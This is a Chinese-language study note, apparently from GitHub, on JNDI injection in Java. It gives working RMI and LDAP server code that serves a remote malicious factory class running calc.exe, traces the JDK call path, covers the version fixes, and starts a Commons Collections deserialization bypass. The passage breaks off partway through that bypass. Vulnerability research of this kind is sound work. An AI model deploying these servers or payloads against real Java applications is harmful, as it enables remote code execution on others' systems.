









* 测试时注意远程加载类的存放地址
* JNDI几种攻击向量
* 不同攻击向量的版本需求
* 对于高版本的限制绕过
* marshalsec

> 我个人的理解是，JNDI的本质还是调用了RMI、LDAP等不同技术的相关类和方法，所以在讨论JNDI注入带来的安全问题时，需要弄清两点：
>
> 1. JNDI是如何与RMI、LDAP还有所支持的其他技术的资源相结合的，为什么有些会引起安全问题，有一些则不会。
> 2. 简单了解了一些资料，发现Reference这个类是引发安全问题的关键，所以需要去了解这个类（以及相关的工厂模式），还需要了解JNDI是如何利用这个类的
> 3. 弄清JNDI注入的基本问题后，需要了解jdk高版本下是如何对RMI和JNDI进行修复的，接着就是目前已知的绕过修复的方法

### JNDI

#### JNDI介绍

一些需要了解的概念：

* JNDI（Java Naming and Directory Interface）即 Java 命名与目录接口。
* JNDI 提供了一种统一的方式来查找和访问各种不同类型的资源。比较直观的解释是，我们在使用RMI、LDAP、JDBC等技术访问相应的资源时，使用的是不同的类和方法，有了JNDI之后，我们只需要使用JNDI相关的类和方法，就可以通过资源的URL访问它们。
* JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。
* JNDI现在可以访问的目录服务有DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。
* 现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

#### JNDI的一些相关类和方法

* ### InitialContext

```txt
InitialContext() 
构建一个初始上下文。  
InitialContext(boolean lazy) 
构造一个初始上下文，并选择不初始化它。  
InitialContext(Hashtable<?,?> environment) 
使用提供的环境构建初始上下文。 
```

```java
InitialContext initialContext = new InitialContext();
```

在这JDK里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。在学习过程中，没有哪篇文章对其作了详细的介绍，所以这里了解即可。

* ### Reference

该类也是在`javax.naming`的一个类，该类表示对在命名/目录系统外部找到的对象的引用。提供了JNDI中类的引用功能。

```txt
Reference(String className) 
	为类名为“className”的对象构造一个新的引用。  
Reference(String className, RefAddr addr) 
	为类名为“className”的对象和地址构造一个新引用。  
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
	为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。  
Reference(String className, String factory, String factoryLocation) 
	为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。  

```

```java
String url = "http://127.0.0.1:8080";
Reference reference = new Reference("test", "test", url);
```

Reference(String className, String factory, String factoryLocation) 是比较常见的用法，factoryLocation很好理解，在结合RMI、LDAP的攻击过程中，即是存放恶意class的地址。className这个参数表示所引用对象的类的全限定名（Fully Qualified Class Name，FQCN），即对象实际对应的类名，如果你引用的是一个数据库连接池对象，这里可能是像`"com.example.ConnectionPool"`这样的类名。factory这个参数指定一个工厂类（Factory Class）的全限定名，负责返回`className`所描述的对象实例。工厂类通常用于生成、重构或复原被命名对象的实例，如果`className`是一个数据库连接池类，`factory`可能是实现该池管理逻辑的工厂类，比如`"com.example.ConnectionPoolFactory"`。

#### JNDI注入利用RMI实现RCE

* **利用的代码示例**

```java
// RMIClient
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}

```

```java
// RMIServer
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080/";
        Registry registry = LocateRegistry.createRegistry(1099);
        // 从后面的代码分析过程中可以看出，第二个参数需要是远程加载类的完整包名，第一个参数不影响RCE
        Reference reference = new Reference("ExecTest", "ExecTest", url);
        // 后续bind操作要求类实现了Remote接口，为了实现这个需求，我们需要再包装一层
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

```java
// Reference远程加载的类
// 这个类需要不在Client的本地classpath中，否则，Client将不会远程加载该类
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class ExecTest implements ObjectFactory {
    public ExecTest() throws IOException,InterruptedException{
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?,?> environment) throws IOException{
        Runtime.getRuntime().exec("notepad.exe");
        return null;
    }
}
```

这里Client的url是可控的，控制其向恶意的RMI Server的某个资源发起连接，该资源bind到一个经过包装的Reference对象，Reference又指向一个恶意类，Client远程加载该类，造成RCE。

* **Reference的触发RCE的gatget**

深入客户端`initialContext.lookup(url)`，逐步分析调用过程

```java
// InitialContext#lookup
public Object lookup(String name) throws NamingException {
   
    return getURLOrDefaultInitCtx(name).lookup(name);
}
// InitialContext#getURLOrDefaultInitCtx
// 返回处理基于 URL 的上下文（Context）的一个通用实现类GenericURLContext
protected Context getURLOrDefaultInitCtx(String name)
        throws NamingException {
    if (NamingManager.hasInitialContextFactoryBuilder()) {
        return getDefaultInitCtx();
    }
    String scheme = getURLScheme(name);
    if (scheme != null) {s
        Context ctx = NamingManager.getURLContext(scheme, myProps);
        if (ctx != null) {
            return ctx;
        }
    }
    return getDefaultInitCtx();
}

// GenericURLContext#lookup
 public Object lookup(String var1) throws NamingException {
    // 这里返回了一个ResolveResult对象，这个类可以简单理解为存放URL解析的部分结果
    // 为什么是部分结果呢，因为有的url解析是比较复杂的，借助这个类可以在不同阶段逐步处理解析url
    ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);
    // 这里返回了一个RegistryContext对象，处理不同schema的url时，返回不同的context类
    Context var3 = (Context)var2.getResolvedObj();

    Object var4;
    try {
        // var2.getRemainingName()的解析结果为我们bind的端点"obj"
        var4 = var3.lookup(var2.getRemainingName());
    } finally {
        var3.close();
    }

    return var4;
}

// RegistryContext#lookup
public Object lookup(Name var1) throws NamingException {
    if (var1.isEmpty()) {
        return new RegistryContext(this);
    } else {
        Remote var2;
        try {
            // this.registry为RegistryImpl_Stub
            // 了解rmi应该很熟悉这个类了，这个类可以完成rmi的lookup、bind等一些列操作，它的一些属性封装了rmi发起网络连接的类
            // 这行代码运行结束后，已经取得RMI服务端的bind的ReferenceWrapper(reference)
            var2 = this.registry.lookup(var1.get(0));
        } catch (NotBoundException var4) {
            throw new NameNotFoundException(var1.get(0));
        } catch (RemoteException var5) {
            throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
        }
        
        // var1.getPrefix(1)为bind的端点 obj
        return this.decodeObject(var2, var1.getPrefix(1));
    }
}

// RegistryContext#decodeObject
private Object decodeObject(Remote var1, Name var2) throws NamingException {
    try {
        Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
        // 关键
        return NamingManager.getObjectInstance(var3, var2, this, this.environment);
    } catch (NamingException var5) {
        throw var5;
    } catch (RemoteException var6) {
        throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
    } catch (Exception var7) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var7);
        throw var4;
    }
    

 public static Object
        getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment)
        throws Exception
    {

        ObjectFactory factory;

        // Use builder if installed
        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            return factory.getObjectInstance(refInfo, name, nameCtx,
                environment);
        }

        // Use reference if possible
        // 这里解析出来RMIServer bind的reference
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively
                // 根据reference从url加载类
                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    // 第二次执行命令
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
                // No factory found, so return original refInfo.
                // Will reach this point if factory class is not in
                // class path and reference does not contain a URL for it
                return refInfo;

            } else {
                // if reference has no factory, check for addresses
                // containing URLs

                answer = processURLAddrs(ref, name, nameCtx, environment);
                if (answer != null) {
                    return answer;
                }
            }
        }

        // try using any specified factories
        answer =
            createObjectFromFactories(refInfo, name, nameCtx, environment);
        return (answer != null) ? answer : refInfo;
    } 
    
static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // 这里会先尝试从本地加载，所以我们实验时的恶意类不能放在Client可以访问到的classpath中
        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        // codebase又是一个熟悉的变量，为远程加载类的URL，RMI中也有一个codebase的概念
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }
            
        // newInstance第一次执行命令，构造函数中执行命令
        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

整个流程跟下来，了解了JNDI是如何调用RMI的相关类的，恶意类是如何被加载并运行的。

* **利用版本**：jdk8u121之前，在此之后远程加载默认不再被信任



* **修复**：默认对Reference远程加载的代码不信任

```java
// RegistryContext#decodeObject
private Object decodeObject(Remote var1, Name var2) throws NamingException {
    try {
        Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
        Reference var8 = null;
        if (var3 instanceof Reference) {
            var8 = (Reference)var3;
        } else if (var3 instanceof Referenceable) {
            var8 = ((Referenceable)((Referenceable)var3)).getReference();
        }
        
        // 新增代码，trustURLCodebase在static代码块中初始化
        if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
            throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
        } else {
            return NamingManager.getObjectInstance(var3, var2, this, this.environment);
        }
    } catch (NamingException var5) {
        throw var5;
    } catch (RemoteException var6) {
        throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
    } catch (Exception var7) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var7);
        throw var4;
    }
}

static {
    PrivilegedAction var0 = () -> {
        return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
    };
    String var1 = (String)AccessController.doPrivileged(var0);
    trustURLCodebase = "true".equalsIgnoreCase(var1);
}
```

#### JNDI注入利用LDAP实现RCE

* 这里需要了解LDAP的几个基本概念：

  * LDAP 并**不是 Java 专属的概念**，而是一种**开放、跨平台的网络协议**，用于访问和管理分布式目录服务。

  * 了解 LDAP 之前，首先要理解**目录服务**的概念。目录服务是一种**专门用于存储信息的数据库**，通常以层次化的方式组织数据，类似于文件系统中的目录和文件。目录服务用于存储与网络资源相关的信息，如用户账号、计算机、打印机、网络设备等。LDAP 就是用于**访问和查询**这种目录服务的协议。

  * LDAP 使用 TCP/IP 协议进行通信，广泛适用于各种网络环境。

  * LDAP常用术语

    * **DN (Distinguished Name)**：每个条目都有唯一的名称称为 DN，类似于路径。它唯一标识一个条目在目录中的位置。例如：uid=jdoe, ou=people, dc=example, dc=com

    * **RDN (Relative Distinguished Name)**：相对识别名，是 DN 中的每一级别。例如，在上面的 DN 中，`uid=jdoe` 是一个 RDN。

      **Entry（条目）**：目录中的每个对象都叫做条目，它由属性和值的集合组成。例如，用户条目可能包含 `uid`（用户ID）、`cn`（常用名）、`mail`（电子邮件）等属性。

      **Attribute（属性）**：每个条目包含的属性。例如，`cn` 可能是 `John Doe`，`mail` 可能是 `jdoe@example.com`。

  * LDAP 允许客户端应用程序通过网络与目录服务交互，主要包括以下操作：

    * **绑定（Bind）**：用户进行身份验证，类似于登录过程。
    * **搜索（Search）**：根据指定的条件搜索目录中的条目，这是 LDAP 最常见的操作。
    * **比较（Compare）**：比较条目中的某个属性值是否符合条件。
    * **添加/删除（Add/Delete）**：向目录中添加或删除条目。
    * **修改（Modify）**：修改现有条目中的属性或值。

* **利用代码示例**

```java
// LdapServer
// 需要引入依赖
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LdapServer {

    // 定义DN
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        // 远程加载恶意代码的url
        // 需要在http://127.0.0.1:8000/根目录下放置ExecTest.class
        String[] args=new String[]{"http://127.0.0.1:8000/#ExecTest"};
        int port = 7777;

        try {
            // LDAP服务器配置
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            
            // 自定义拦截器，拦截器会在 LDAP 请求到达时触发。这在后续的 processSearchResult 方法中会用到。
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    
    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        // 处理 LDAP 查询结果, 当收到一个 LDAP 查询时，processSearchResult 方法会被调用。
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        // 发送包含远程引用信息的数据给客户端
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            // 创建了一个指向远程 .class 文件的 URL，该文件基于 codebase 参数生成。
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            // javaClassName: 远程加载的类名（此处为 "foo"）
            e.addAttribute("javaClassName", "AnyClassName");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            // javaCodeBase: 远程代码库的地址
            e.addAttribute("javaCodeBase", cbstring);
            // objectClass: 标识这是一个 Java Naming 的引用对象。
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            // javaFactory: 指定用于创建对象的工厂类，来自 codebase 的片段。
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}

```

```xml
 <dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>3.1.1</version>
        </dependency>
```

```java
import javax.naming.InitialContext;

public class LdapClientWithJNDI {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/any/path/");
    }
}

```

* **分析整个过程**（TODO）

下图是调用栈，整个过程和RMI差不太多，注意到getObjectInstance，这个函数在之前RMI中也调用过，解析出了服务端返回的Reference，ldap虽然没有在服务端直接试使用Reference，但是客户端根据服务端返回的数据生成了Reference。



* **适用版本**：jdk8u191之前
* **修复**：在此之后远程加载默认不再被信任

在该处打上断点并步入



当trueURLCodebase不为true时，直接返回null，而这个变量被默认设置为false





#### JNDI利用DNS进行dnslog

略

#### JNDI在高版本的绕过利用

在jdk8u121及以后，JNDI+RMI默认不信任远程加载类，在jdk8u191及以后，JNDI+LDAP默认不信任远程加载类，目前主要有两种绕过方法：

1. JNDI+LDAP的反序列化攻击
2. JNDI+RMI或者JNDI+LDAP的本地类加载攻击

##### 反序列化攻击

服务端代码如下，和之前的代码相比，几乎只改变了$OperationInterceptor#sendResult

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class LdapServerUnseri {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        // 这里的远程代码无需加载
        String[] args=new String[]{"http://192.168.43.88/#test"};
        int port = 6666;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            
            // 这里的e为com.unboundid.ldap.sdk下的Entry
            // Entry有两个属性
            // 1.DN，它是用来在 LDAP 目录树中唯一标识这个条目的名称
            // 2.Attributes,一个Entry包含多个Attribute。Attribute由属性类型（如cn表示通用名称，mail表示电子邮件地址等）和一个或多个属性值组成。
